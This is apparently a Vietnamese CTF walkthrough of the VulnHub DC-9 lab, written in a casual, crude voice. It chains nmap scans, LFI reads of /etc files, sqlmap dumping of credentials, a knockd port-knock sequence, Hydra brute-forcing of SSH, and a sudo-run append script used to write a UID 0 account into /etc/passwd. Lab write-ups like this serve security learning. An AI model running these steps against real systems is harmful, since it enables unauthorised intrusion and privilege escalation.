









[VulnHub] DC-9
Overview
Link download: DC: 9
Difficulty: Easy
Information Gathering
Nmap
$ nmap -sn 10.10.10.102-105
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 17:22 +07
Nmap scan report for 10.10.10.104
Host is up (0.00028s latency).
Nmap done: 4 IP addresses (1 host up) scanned in 1.26 seconds
$ nmap -p- 10.10.10.104 --min-rate 3000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 17:24 +07
Nmap scan report for 10.10.10.104
Host is up (0.00015s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
$ nmap -A 10.10.10.104 -p 80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 17:25 +07
Nmap scan report for 10.10.10.104
Host is up (0.00053s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.71 secondsHmm… bủn xỉn vcl, mở mỗi cổng 80-HTTP.


Từ từ đã, tại sao lại có dòng File does not exist ở kia? Tôi link ngay đến một bài CTF từng làm, truyền vào đây thêm một param nữa để gọi file. Đại khái là thằng manager.php đang gọi đến một hàm mở file và cần một param truyền vào (có thể là file, f hoặc gì gì…), nghe vô lý nhưng cái CTF style nó thế, chả đâu vào đâu :/

Chốt lại là web server dính lỗi LFI, lấy được mã nguồn trang, các thứ các thứ, nhưng chưa có thông tin nào cần để lấy được shell.
Quay lại với search.php, kiểm tra xem nó có dính SQL Injection hay không.

Okay… vậy là có SQL Injection luôn. Ném nó vào Sqlmap dump dữ liệu ra xem có gì hay ho…
Exploition
Sqlmap
Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password | Username |
+--------+----------------------------------+----------+
| 1 | 856f5de590ef37314e7c3bdf6f8a66dc | admin |
+--------+----------------------------------+----------+
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname | password | reg_date | username | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1 | Moe | 3kfs86sfd | 2019-12-29 16:58:26 | marym | Mary |
| 2 | Dooley | 468sfdfsd2 | 2019-12-29 16:58:26 | julied | Julie |
| 3 | Flintstone | 4sfd87sfd1 | 2019-12-29 16:58:26 | fredf | Fred |
| 4 | Rubble | RocksOff | 2019-12-29 16:58:26 | barneyr | Barney |
| 5 | Cat | TC&TheBoyz | 2019-12-29 16:58:26 | tomc | Tom |
| 6 | Mouse | B8m#48sd | 2019-12-29 16:58:26 | jerrym | Jerry |
| 7 | Flintstone | Pebbles | 2019-12-29 16:58:26 | wilmaf | Wilma |
| 8 | Rubble | BamBam01 | 2019-12-29 16:58:26 | bettyr | Betty |
| 9 | Bing | UrAG0D! | 2019-12-29 16:58:26 | chandlerb | Chandler |
| 10 | Tribbiani | Passw0rd | 2019-12-29 16:58:26 | joeyt | Joey |
| 11 | Green | yN72#dsd | 2019-12-29 16:58:26 | rachelg | Rachel |
| 12 | Geller | ILoveRachel | 2019-12-29 16:58:26 | rossg | Ross |
| 13 | Geller | 3248dsds7s | 2019-12-29 16:58:26 | monicag | Monica |
| 14 | Buffay | smellycats | 2019-12-29 16:58:26 | phoebeb | Phoebe |
| 15 | McScoots | YR3BVxxxw87 | 2019-12-29 16:58:26 | scoots | Scooter |
| 16 | Trump | Ilovepeepee | 2019-12-29 16:58:26 | janitor | Donald |
| 17 | Morrison | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2 | Scott |
+----+------------+---------------+---------------------+-----------+-----------+Với mật khẩu hash của admin, đem crack chùa lấy được password ngon lành.
Thề, CrackStation với HashKiller lợi hại vãi cả đái.

Sau đó tôi có cố thử lợi dụng SQL Injection để up shell, chèn mã vào khắp nơi trên cái web site này. Sau 30 phút đéo đem lại gì ngoài sự chán nản. Đù, chả nhẽ nó khó đến thế à?
Và thế là tôi nén mở write up lên để xem xem bước tiếp theo họ làm như thế nào.
Cái mảng kiến thức này thực sự trước giờ tôi đéo biết :D
Như này…
Burp suite
Lần này quay lại với lỗi LFI ở trên đã phát hiện được, bây giờ tôi muốn fuzzing những file ở trong thư mục /etc để tìm kiếm thêm những cấu hình bên trong máy chủ này.


[options]
UseSyslog
[openSSH]
sequence = 7469,8475,9842
seq_timeout = 25
command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
tcpflags = syn
[closeSSH]
sequence = 9842,8475,7469
seq_timeout = 25
command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
tcpflags = Google về thằng klockd này xem nó là thằng ml nào.
knockd is a port-knock server. It listens to all traffic on an ethernet (or PPP) interface, looking for special “knock” sequences of port-hits. A client makes these port-hits by sending a TCP (or UDP) packet to a port on the server. This port need not be open – since knockd listens at the link-layer level, it sees all traffic even if it’s destined for a closed port. When the server detects a specific sequence of port-hits, it runs a command defined in its configuration file. This can be used to open up holes in a firewall for quick access.
Nói qua một chút cho dễ hiểu, giống như trò gõ cửa mà hồi bé hay chơi, gõ cửa 4 lần thì người ở trong mới mở cửa, còn nếu gõ sai, có nghĩa người bên ngoài là người lạ, thì người bên trong sẽ không mở cửa.
Thằng ml Knockd này như kiểu là một thằng rảnh háng đứng ở tầng liên kết (trong mô hình OSI). Nó lắng nghe toàn bộ lưu lượng truy cập và khi nó nghe được một chuỗi knock knock giống như mật khẩu gõ cửa, nó sẽ chạy lệnh được xác định trong tệp cấu hình.
Phân tích tệp cấu hình knockd.conf. Có thể thấy, Knockd đang muốn lắng nghe lần lượt các gói tin TCP syn ở các cổng theo thứ tự 7469, 8475, 9842 để thực hiện lệnh mở cổng 22-SSH. Đây là lí do tại sao Nmap không thể quét ra được cổng 22-SSH trên máy chủ, vì nso có mở đéo đâu mà quét được.
Lúc này knock knock knock để mở cổng 22-SSH thôi nào :D
$ knock 10.10.10.104 7469 8475 9842
$ nmap -p- 10.10.10.104
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 22:55 +07
Nmap scan report for 10.10.10.104
Host is up (0.0038s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 1.35 secondsGood! Cái này trước đây tôi đéo biết, vậy nên làm bài này khiến tôi có thêm một kiến thức mới, không hề tệ với một bài lab easy.
Có SSH rồi, giờ brute-force thôi. Tại sao lại là brute-force? Vì ở kia tôi đã lấy được danh sách người dùng trong hệ thống từ file /etc/passwd. Password thì lấy được từ Sqlmap ở trên, mặc dù nó chả liên quan cho lắm nhưng biết đâu có user nào đấy chủ quan đặt password trên web trùng với password trên server thì sao.
Hydra
Lần này screen-shot Terminal cho nó màu mè

Privileges Escalation
Với session của user janitor, có một cái file vớ vẩn như thế này.
janitor@dc-9:~$ ls -al
total 20
drwxrwxrwx 5 janitor janitor 4096 Feb 4 21:54 .
drwxr-xr-x 19 root root 4096 Dec 29 2019 ..
lrwxrwxrwx 1 janitor janitor 9 Dec 29 2019 .bash_history -> /dev/null
drwxr-xr-x 2 janitor janitor 4096 Feb 4 21:55 duma
drwx------ 3 janitor janitor 4096 Feb 4 21:55 .gnupg
drwx------ 2 janitor janitor 4096 Dec 29 2019 .secrets-for-putin
janitor@dc-9:~$ cd .secrets-for-putin
janitor@dc-9:~/.secrets-for-putin$ ls -al
total 12
drwx------ 2 janitor janitor 4096 Dec 29 2019 .
drwxrwxrwx 5 janitor janitor 4096 Feb 4 21:54 ..
-rwx------ 1 janitor janitor 66 Dec 29 2019 passwords-found-on-post-it-notes.txt
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHtsHmm… lại có thểm một vài mật khẩu nữa, nối vào cuối file password.txt rồi gọi lại Hydra xem có lấy thêm được account nào trong hệ thống không.

He, có thêm của fredf.
Với mấy user tìm được bên trên thì đều không có tên trong danh sách khách mời của sudoers, mỗi fredf là có.
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User fredf may run the following commands on dc-9:
(root) NOPASSWD: /opt/devstuff/dist/test/test
fredf@dc-9:~$ /opt/devstuff/dist/test/test
Usage: python test.py read appendPhần này tôi bỏ qua SUID, vì tìm rồi và chả có mẹ gì. Tập trung vào /opt/devstuff/dist/test/test. Tìm xem cái file test.py ở đâu và có nội dung gì.
fredf@dc-9:~$ find / -name "test.py" 2>/dev/null
/opt/devstuff/test.py
/usr/lib/python3/dist-packages/setuptools/command/test.py
fredf@dc-9:~$ ls -al /opt/devstuff/test.py
-rw-r--r-- 1 root root 257 Feb 5 00:25 /opt/devstuff/test.py
fredf@dc-9:~$ cat /opt/devstuff/test.py
#!/usr/bin/python
import sys
if len (sys.argv) != 3 :
print ("Usage: python test.py read append. Adudu")
sys.exit (1)
else :
f = open(sys.argv[1], "r")
output = (f.read())
f = open(sys.argv[2], "a")
f.write(output)
f.close()File này chỉ có quyền đọc thôi, không có quyền sửa. Nhưng đọc nội dung xem nó làm cái gì.
Sau câu lệnh else, nó thực hiện đọc nội dung file sys.argv[1] và nối (appent) vào file sys.argv[2], với quyền Root. ĐÙ!
Thế thì bây giờ tôi sẽ tự tạo một tài khoản bằng cách chèn thêm vào cuối file /etc/passwd với ID 0, vì trong Linux, user có ID 0 thì mặc định là Root.
fredf@dc-9:~$ echo minhdeptraivcl:$(openssl passwd 00000):0:0:root:/root:/bin/bash > duma.txt
fredf@dc-9:~$ cat duma.txt
minhdeptraivcl:FLvn5eWX/KeFQ:0:0:root:/root:/bin/bash
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test duma.txt /etc/passwd
fredf@dc-9:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash
minhdeptraivcl:FLvn5eWX/KeFQ:0:0:root:/root:/bin/bash
fredf@dc-9:~$ su minhdeptraivcl
Password: 00000
root@dc-9:/home/fredf# id
uid=0(root) gid=0(root) groups=0(root)Done, Ez!
Việc có quyền ghi file với quyền của Root giống như leo thang với các trình editer như Vim hay Nano vậy, có thể sửa đổi những file nhạy cảm như /etc/passwd, /etc/shadow và một loạt các file cấu hình quan trọng khác trong hệ thống của Linux.